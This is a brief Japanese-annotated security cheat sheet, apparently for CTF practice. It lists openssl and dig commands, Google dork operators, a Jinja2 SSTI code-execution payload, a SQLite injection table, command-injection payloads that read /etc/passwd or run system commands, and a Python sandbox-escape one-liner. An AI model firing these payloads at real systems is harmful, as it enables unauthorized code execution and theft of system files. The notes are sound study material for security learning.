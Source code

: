 # tips

## RSA

秘密鍵の中身を見る

```
openssl rsa -in <private-key.pem> -text -noout
```

公開鍵の中身を見る

```
openssl rsa -pubin -in <public-key.pem> -text -noout
```

## DNS

dig

```
dig <example.com> IN
dig <example.com> ANY
dig <example.com> TXT
```

## Phishing

- MX (Mail exchange record)
- SPF (Sender Policy Framework)
- DKIM (DomainKeys Identified Mail)
- DMARC (Domain-based Message Authentication, Reporting and Conformance)

## OSINT

- Google Dorks: https://www.exploit-db.com/google-hacking-database

  - ext: `ext:(doc | pdf | xls | txt)`
  - filetype: `filetype:log`
  - intext: `intext:"Control Panel"`
  - intitle: `intitle:"Manager"`
  - inurl: `inurl:index.php`
  - site: `site:ftp.*.*.*`

## SSTI

**Server Side Template Injection**

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

Jinja2

```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

## SQLi

**SQL Injection**

- LIKE: `%`, `*`

**SQLite3**

| 説明                   | SQL                               |
| ---------------------- | --------------------------------- |
| コメント               | --                                |
| If                     | CASE                              |
| 文字列結合             | &#124;&#124;                      |
| 部分文字列             | substr(x,y,z)                     |
| 長さ                   | length(stuff)                     |
| シングルクォートの生成 | select substr(quote(hex(0)),1,1); |
| ダブルクォートの生成   | select cast(X'22' as text);       |

参考: http://atta.cked.me/home/sqlite3injectioncheatsheet

## Command Injection

**Unix Payloads**

```
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/passwd&quot;--&gt;
;netstat -a;
;system('cat%20/etc/passwd')
|id
\n/bin/ls -al\n
a);id
%0Acat%20/etc/passwd
& ping -i 30 127.0.0.1 &
<?php system("cat /etc/passwd");?>
```

**Windows Payloads**

```
'
'"
"
"'
%0a
%0a%0d
eval('ls')
exec('ls')
system('ls')
| sleep 1
; sleep 1
& sleep 1
&& sleep 1`
```

Links:

- https://github.com/payloadbox/command-injection-payload-list

**Payloads with Python**

```
a=().__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']
a('os').popen('cat flag').read()
```

Bypass:

- to Hex: `(` => `\\x28`
- to Octal: `(` => `\50`

## Databases

- Default Passwords: https://cirt.net/passwords
- Exploit: https://www.exploit-db.com/

## Shodan:

- https://exploits.shodan.io/welcome

## Sites

- requestbin: https://requestbin.com/

